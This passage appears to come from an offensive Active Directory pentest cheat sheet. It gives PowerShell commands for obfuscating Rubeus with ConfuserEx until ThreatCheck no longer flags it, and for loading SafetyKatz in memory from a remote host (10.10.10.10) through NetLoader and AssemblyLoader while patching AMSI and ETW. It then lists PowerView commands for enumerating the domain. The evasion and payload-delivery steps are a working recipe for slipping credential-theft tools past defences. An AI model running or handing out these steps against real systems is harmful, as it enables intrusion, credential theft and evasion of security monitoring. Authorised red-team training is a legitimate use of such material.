 ```powershell
# Check malicious binary with ThreatCheck (https://github.com/rasta-mouse/ThreatCheck)
Threatcheck.exe -f Rubeus.exe

# Use ConfuserEx (GUI) to obfuscate binary launch (https://github.com/mkaring/ConfuserEx)
# In Project tab select the Base Directory where the binary file is located
# In Setting Tab, add the rule and edit the rule to select the preset as Normal
# In Protect tab click on the protect button

# Analyze with ThreatCheck again to make sure its obfuscated successfully
Threatcheck.exe -f RubeusObfuscated.exe
```

##### `NetLoader` & `AssemblyLoader` - Payload Delivery

```powershell
# We can use NetLoader (https://github.com/Flangvik/NetLoader) to deliver our binary payloads.
# It can be used to load binary from filepath or URL and patch AMSI & ETW while executing.
Loader.exe -path http://10.10.10.10/SafetyKatz.exe 

# Use AssemblyLoader.exe (https://github.com/KINGSABRI/AssemblyLoader) to load the NetLoader in-memory from a URL which then loads a binary from a filepath or URL
AssemblyLoad.exe http://10.10.10.10/Loader.exe -path http://10.10.10.10/SafetyKatz.exe
```

# II. Domain Enumeration

##### PowerView Basic Enumeration

```powershell
ipmo C:\AD\Tools\PowerView.ps1

# Get current domain
Get-Domain

# Get object of another domain
Get-Domain -Domain xyz.local

# Get domain SID for the current domain
Get-DomainSID

# Get domain policy
Get-DomainPolicyData

# Get DC for the current domain
Get-DomainController

# Get DC for another domain
Get-DomainController -Domain xyz.local

# Get a list of users in the current domain
Get-DomainUser
Get-DomainUser -Identity student1
Get-DomainUser -Identity student1 -Properties *

# Get list of all properties for users in the current domain
Get-UserProperty
Get-UserProperty -Properties pwdlastset,logoncount,badpwdcount

# Search for a particular string in a user's attributes
Find-UserField -SearchField Description -SearchTerm "built"

# Get a list of computers in the current domain
Get-DomainComputer
Get-DomainComputer -OperatingSystem "*Server 2022*"
```